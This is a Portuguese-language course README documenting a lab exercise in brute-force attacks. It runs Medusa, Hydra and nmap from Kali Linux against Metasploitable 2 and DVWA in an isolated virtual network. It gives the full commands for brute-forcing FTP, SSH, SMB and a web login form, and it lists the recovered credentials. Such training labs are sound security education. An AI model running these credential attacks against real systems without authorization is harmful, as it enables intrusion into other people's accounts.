


# Brute Force Attack

## ⚠️ Desafio:
- Implementar, documentar e compartilhar um projeto prático utilizando Kali Linux e a ferramenta Medusa, em conjunto com ambientes vulneráveis (por exemplo, Metasploitable 2 e DVWA), para simular cenários de ataque de força bruta e exercitar medidas de prevenção.
- Configurar o ambiente: duas VMs (Kali Linux e Metasploitable 2) no VirtualBox, com rede interna (host-only).
- Executar ataques simulados: força bruta em FTP, automação de tentativas em formulário web (DVWA) e password spraying em SMB com enumeração de usuários.
- Documentar os testes: wordlists simples, comandos utilizados, validação de acessos e recomendações de mitigação.

---
## 📌 Descrição do ataque:
O ataque de força bruta (Brute Force Attack) é uma técnica utilizada para descobrir credenciais de acesso tentando todas as combinações possíveis até encontrar a correta. É um método simples, porém demorado, dependendo da complexidade das credenciais utilizadas.

---
## 🔧 Preparando o ataque:
### 🗒️ Criando wordlists simples:
Utilizaremos os comandos 
``` bash
echo -e "user\nuser123\nadmin\nroot\nusuario\nmsfadmin" > users.txt
``` 
para criar uma lista de usuários chamada *users.txt* e 
``` bash
echo -e "admin\nuser\nroot\npassword\n123456\nmsfadmin" > passwords.txt
```
para criar uma lista de senhas chamada *passwords.txt*.

### 🔍 Scan de hosts, portas e serviços com Nmap:
Precisamos nos certificar que o Kali e o Metasploitable estão na mesma rede. Para isso utilizaremos o comando `ifconfig` em ambos.  
  

Kali Linux


Metasploitable  

Após verificar que estão na mesma rede, e que o IP do Metasploitable é *192.168.219.3*, usaremos o comando
``` bash
nmap 192.168.219.3 -sV
```
para descobrir as portas abertas e os serviços rodando no Metasploitable.  
  

Portas e serviços do Metasploitable  
  
  
Conhecendo as portas e serviços, podemos executar os ataques de Brute Force.

---
## 🚀 Executando os ataques:
Para executar os ataques de Brute Force em FTP (porta 21), SSH (porta 22) e SMB (porta 445), utilizaremos a ferramenta *Medusa* com as wordlists criadas anteriormente.
### ⚔️ Brute Force Attack em FTP:
Executando o comando 
``` bash
medusa -h 192.168.219.3 -U users.txt -P passwords.txt -M ftp -t 6
```
temos o resultado de *msfadmin* como usuário e senha:
  

  
  
Podemos verificar o sucesso do ataque, se conectando ao host via FTP, com o comando 
``` bash
ftp 192.168.219.3
```
e utilizando as credenciais *msfadmin* para login e senha.


### ⚔️ Brute Force Attack em SSH:
Executando o comando 
``` bash
medusa -h 192.168.219.3 -U users.txt -P passwords.txt -M ssh -t 6
```
teremos como resultado as mesmas credenciais.

  
  
Para confirmar o ataque bem sucedido, utilizaremos o comando 
``` bash
ssh msfadmin@192.168.219.3 -o HostKeyAlgorithms=+ssh-rsa
```
e digitaremos *msfadmin* como password, quando solicitado.


### ⚔️ Brute Force Attack em SMB:
Executando o comando
``` bash
medusa -h 192.168.219.3 -U users.txt -P passwords.txt -M smbnt -t 6
```
o resultado é igual aos anteriores.

  
  
Podemos confirmar que o ataque foi bem sucedido com o comando
``` bash
mbclient -L 192.168.219.3 -U msfadmin --password=msfadmin
```


### ⚔️ Brute Force Attack no DVWA (http):
Antes de iniciarmos o ataque, precisamos conhecer como a aplicação funciona. Para isso, vamos utilizar o modo desenvolvedor do navegador e realizar uma tentativa de login, inserindo uma credencial qualquer.  
Na aba *Network* podemos perceber que é realizada uma requisição do tipo *POST* enviando os dados *username=admin&password=admin&Login=Login*. 

  
Esta requisição retorna uma mensagem de *Login failed* na sua resposta, caso as credenciais não sejam válidas.


Estas informações já são suficientes para iniciarmos o ataque.

Como a ferramenta *Medusa* não é eficaz em testes de autenticação do tipo Web Forms, ela não foi utilizada nos testes realizados na aplicação Damn Vulnerable Web Application (DVWA), já que é o tipo de autenticação que esta aplicação utiliza. Faremos alguns testes utilizando o *THC-Hydra* e o prórpio *Nmap*.

__Hydra:__ Para realizarmos o ataque com a ferramenta *Hydra*, utilizaremos o comando 
``` bash
hydra -L users.txt -P passwords.txt 192.168.219.3 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -t 6
```
__Nmap:__ Já para o ataque com o Nmap, utilizaremos o comando
``` bash
nmap 192.168.219.3 --script http-form-brute --script-args userdb=users.txt,passdb=passwords.txt,path=/dvwa/login.php -p 80
```  
Após os ataques, podemos perceber que as ferramentas encontraram as credenciais *login: admin* e *password: password* como válidas.  

  
O sucesso do ataque pode ser constatado inserindo as credenciais da página de login do *DVWA*.


---
## 📚 Recursos:
### Slide:
- [Criando um Ataque Brute Force de senhas com Medusa e Kali Linux](https://hermes.dio.me/files/assets/2dd3d3ad-b7e5-4325-8d1d-ddd8e7205fea.pdf)

### Softwares e Ferramentas:
- [Kali Linux](https://www.kali.org/)
- [Metasploitable 2](https://www.rapid7.com/products/metasploit/metasploitable/)
- [Medusa](http://www.foofus.net/jmk/medusa/medusa.html)
- [Nmap](https://nmap.org/)

### Documentações oficiais:
- [Kali Linux – Site Oficial](https://www.kali.org/docs/)
- [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2/)
- [Medusa – Documentação](http://www.foofus.net/jmk/medusa/medusa.html)
- [Nmap – Manual Oficial](https://nmap.org/book/toc.html)
